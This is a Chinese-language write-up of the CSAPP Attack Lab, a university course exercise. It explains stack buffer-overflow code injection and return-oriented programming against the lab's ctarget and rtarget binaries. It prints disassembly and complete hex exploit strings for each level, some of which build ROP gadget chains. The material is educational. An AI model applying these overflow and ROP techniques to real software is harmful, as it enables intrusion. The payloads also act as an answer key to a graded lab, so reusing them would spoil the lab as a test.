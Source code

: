 # CSAPP Lab -- Attack Lab

## 准备
和[Bomb Lab](https://zhuanlan.zhihu.com/p/36614408)一样，这个实验也是CSAPP中第三章的配套实验，前者主要是利用基础的汇编知识来读汇编代码并解决问题，而Attack Lab则需要弄明白**控制**和**过程**在机器级代码中的表现形式和运行过程。

这个实验分为两个部分，分别是code injection attacks和ROP，这是攻击程序的两种方法。在开始实验之前，可以准备一些资料:
- [lab 下载地址](http://csapp.cs.cmu.edu/3e/labs.html)
- [WriteUp](http://csapp.cs.cmu.edu/3e/attacklab.pdf) <- 很重要
- [cs15213 Attack Lab](http://www.cs.cmu.edu/~213/recitations/recitation04-attacklab.pdf)
- [GDB手册](http://csapp.cs.cmu.edu/3e/docs/gdbnotes-x86-64.pdf)

介绍一下，整个Lab的大致流程就是，你输入一个字符串，然后利用stack的buffer overflow，我们就可以修改stack中的数据，然后就可以改变程序的运行，达成我们的目的。具体到这个Lab，我们要完成的目标就是通过`test()`函数中的`getbuf()`这个入口，来完成对stack某些部分的覆盖，利用两种攻击程序的技术，让程序调用我们希望调用的函数。

Like this:
![Alt text](./1526227326162.png)


## Part I : Code Injection Attacks
### level 1
这个部分很简单，要求我们输入一个字符串，利用溢出来重写stack中的getbuf函数ret的地址，让程序调用函数`touch1`。先`objdump -d ctarget.c > ctarget.d`反汇编得到汇编代码。

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 ac 03 00 00       	callq  401b60 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```
根据这段代码可以确定，getbuf在栈中分配了0x28bytes的内存来存储输入的字符串。回想一下CSAPP中程序调用时栈的结构，我们会把返回地址存在栈中，然后再去调用函数。如果我们输入的字符串长度超过40，就可以覆盖掉getbuf的返回地址了，所以，我们只需要把输入的第40-47个字符填写为`touch1`函数的地址就OK了。

`touch1`的地址为`00000000004017c0`，按照前面的思路，填写字符串就好了:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00
```

这里需要注意的是，我们输入的字符应该用两位十六进制数来表示ascii码，然后通过`./hex2raw`来将其转换成字符串。另外，因为我使用的是ubuntu，数据都是用小端法来保存的，所以低位在前。
![Alt text](./1526228497470.png)

### level 2
和level1相比，level2需要调用的`touch2`函数有一个`unsighed`型的参数，而这个参数就是lab提供的cookie。所以，这次我们在ret到`touch2`之前，需要先把cookie放在寄存器`%rdi`中(第一个参数通过`%rdi`传递)。

为了达到这个目的，我们需要在stack中植入指令`movq $0x59b997fa, %rdi`。所以，考虑在第一次ret的时候，将这个地址写为这条指令的地址，然后再ret到`touch2`。

首先，通过
```
unix> gcc -c example.s
unix> objdump -d example.o > example.d
```
来把指令转换成十六进制的形式，然后放在字符串的开头。这个时候，我们需要得到这个指令在栈中的具体位置，可以用GDB来调试获得:
![Alt text](./1526229018599.png)

所以，将第一次ret的地址写为这个。然后，再把`touch2`的地址放在这后面就行了:
```
bf fa 97 b9 59 c3 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
ec 17 40 00 00 00 00 00
```

整个流程就是: `getbuf => ret => 0x5561dc78 => movq $0x59b997fa, %rdi => ret => 0x4017ec`。


### level 3

和level2一样，`touch3`也需要传入cookie，但是要求以字符串的形式传入。所以，我们要做的就是，把字符串形式的cookie放在stack中，然后再把它的地址放在`%rdi`中，再就和`touch2`中一样了。

![Alt text](./1526229437211.png)

但是，在这里有一个问题，我们不能够单纯地像level2中那样做，因为touch3中调用了`hexmatch`函数，而这个函数会在栈中申请110bytes的空间，这样有可能将我们在stack中放置的cookie给覆盖掉。

为了解决这样的问题，我们可以考虑将cookie放在更上面的位置，让`hexmatch`够不着，或者直接通过植入指令来修改`%rsp`栈指针的值。

这里采用了第二种方案:
```
fa 18 40 00 00 00 00 00  #touch3的地址
bf 90 dc 61 55 48 83 ec  #mov    edi, 0x5561dc90
30 c3 00 00 00 00 00 00  #sub    rsp, 0x30  ret
35 39 62 39 39 37 66 61  #cookie
00 00 00 00 00 00 00 00
80 dc 61 55				 #stack top的地址+8
```

## Part II: Return-Oriented Programming
### level 2
level2对应Part I中的level2，不同的是，在Part II：
- stack的地址会随机化
- 不能够ret到stack中来执行指令

![Alt text](./1526230071723.png)

在这样的限制下，我们不能使用代码注入的方式来进行攻击了，Write up中介绍了ROP这种方式，大致的思想就是我们把栈中放上很多地址，而每次ret都会到一个Gadget（小的代码片段，并且会ret），这样就可以形成一个程序链。通过将程序自身(`./rtarget`)的指令来完成我们的目的。

Write up提示可以用`movq`, `popq`等来完成这个任务。利用`popq`我们可以把数据从栈中转移到寄存器中，而这个恰好是我们所需要的(将cookie放到`%rdi`中)。

思路确定了，接下来只需要根据Write up提供的encoding table来查找`popq`对应encoding是否在程序中出现了。很容易找到`popq %rdi`对应的编码5f在这里出现，并且下一条就是ret：

```
 402b18:	41 5f                pop    %r15
 402b1a:	c3                   	retq   
```

所以答案就是:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 2b 40 00 00 00 00 00 #pop %rdi
fa 97 b9 59 00 00 00 00 #cookie
ec 17 40 00 00 00 00 00 #touch2
```

### level 3
最后一个题就比较麻烦了，因为它需要处理好cookie存放的位置，并且需要找到能够对`%rsp`进行运算，然后保存在`%rdi`中的一系列Gadget。

首先解决第一个问题，因为我们没有实现`sub`操作的可能性，所以cookie只能放到比较高的位置，而不能够通过修改`%rsp`来保护cookie不被覆盖。

然后处理第二个问题，我们必须找到一个能够实现加法或者减法运算的Gadget，这个函数带来了希望:
```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq 
```

我们可以通过这个函数来实现加法，因为`lea (%rdi,%rsi,1) %rax`就是%rax = %rdi + %rsi。所以，只要能够让%rdi和%rsi其中一个保存%rsp，另一个保存从stack中pop出来的偏移值，就可以表示cookie存放的地址，然后把这个地址mov到`%rdi`就大功告成了。

对应Write up里面的encoding table会发现，从`%rax`并不能直接mov到`%rsi`，而只能通过`%eax`->`%edx`->`%ecx`->`%esi`来完成这个。所以，兵分两路:
- 1.把`%rsp`存放到`%rdi`中
- 2.把偏移值(需要确定指令数后才能确定)存放到`%rsi`中

然后，再用`lea`那条指令把这两个结果的和存放到`%rax`中，再`movq`到`%rdi`中就完成了。

值得注意的是，上面两路完成任务的寄存器不能互换，因为从`%eax`到`%esi`这条路线上面的mov都是4个byte的操作，如果对`%rsp`的值采用这条路线，`%rsp`的值会被截断掉，最后的结果就错了。但是偏移值不会，因为4个bytes足够表示了。

另外，在网上发现了一些其他做法，例如[这篇文章](https://blog.csdn.net/lijun538/article/details/50682387)。在文章中，他的主要思路是利用在这里：
```
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```
发现的`04 37`表示`add $0x37, %al`，利用这个直接对`%rax`的值进行修改。但是这种做法是不完全正确的，因为`%al`只表示2个bytes，如果出现溢出的情况，那样计算出来的cookie的地址就是错误的，所以这种方法会有fail的情况发生。


最后结果:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00   #movq %rsp, %rax   
a2 19 40 00 00 00 00 00   #movq %rax, %rdi
ab 19 40 00 00 00 00 00   #popq %rax
48 00 00 00 00 00 00 00   #偏移值
dd 19 40 00 00 00 00 00   #mov %eax, %edx
34 1a 40 00 00 00 00 00   #mov %edx, %ecx
13 1a 40 00 00 00 00 00   #mov %ecx, %esi
d6 19 40 00 00 00 00 00   #lea (%rsi, %rdi, 1) %rax
a2 19 40 00 00 00 00 00   #movq %rax, %rdi
fa 18 40 00 00 00 00 00   #touch3
35 39 62 39 39 37 66 61   #cookie
```